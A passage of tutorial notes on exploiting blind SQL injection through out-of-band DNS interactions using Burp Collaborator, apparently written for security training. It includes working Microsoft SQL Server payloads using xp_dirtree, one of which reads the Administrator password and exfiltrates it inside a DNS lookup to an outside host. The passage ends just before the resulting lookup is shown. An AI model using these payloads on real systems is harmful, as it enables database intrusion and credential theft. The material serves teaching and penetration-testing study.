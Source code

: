 > Note: There are various ways of triggering time delays within SQL queries, and different techniques apply on different types of database

---


#### Exploiting blind SQL injection using out-of-band (OAST) techniques

Now, suppose that the application carries out the same SQL query, but does it asynchronously.
- The application continues processing the user's request in the original thread,
- and uses another thread to execute an SQL query using the tracking cookie.
- The query is still vulnerable to SQL injection,
- however none of the techniques described so far will work:
- the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.


In this situation, exploit the blind SQL injection vulnerability by triggering **out-of-band network interactions** to a system that you control.
- As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time.
- But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose,
- typically the most effective is DNS (domain name service), because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.


The easiest and most reliable way to use out-of-band techniques is using **Burp Collaborator**.
- This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application.
- Support for Burp Collaborator is built in to Burp Suite Pro


The techniques for triggering a DNS query are highly specific to the type of database being used.
- On Microsoft SQL Server,
  - `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`
  - to cause a DNS lookup on a specified domain
  - cause the database to perform a lookup for the following domain:
  - `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

You can use Burp Suite's Collaborator client to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.


Having confirmed a way to trigger out-of-band interactions, then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

- This input reads the password for the Administrator user,
- appends a unique Collaborator subdomain,
- and triggers a DNS lookup.
- This will result in a DNS lookup like the following, allowing you to view the captured password:
